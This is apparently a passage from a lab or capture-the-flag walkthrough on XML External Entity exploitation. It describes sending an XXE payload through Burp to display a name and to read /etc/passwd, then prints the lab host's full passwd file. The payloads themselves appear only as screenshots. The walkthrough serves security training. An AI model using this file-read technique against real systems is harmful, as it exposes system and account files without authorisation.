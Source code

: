 1. Try the payload mentioned in description on the website.

## [Day 4] XML External Entity - Exploiting

Now let us see some payloads in action. The payload that I'll be using is the one we saw in the previous task.

1) Let's see how the website would look if we'll try to use the payload for displaying the name.

![](https://i.imgur.com/OHXXxi4.png)

On the left side, we can see the burp request that was sent with the URL encoded payload and on the right side we can see that the payload was able to successfully display name `falcon feast`

2) Now let's try to read the `/etc/passwd`

![](https://i.imgur.com/092GSLz.png)

1. Try to display your own name using any payload.

`No answer needed`

2. See if you can read the /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```
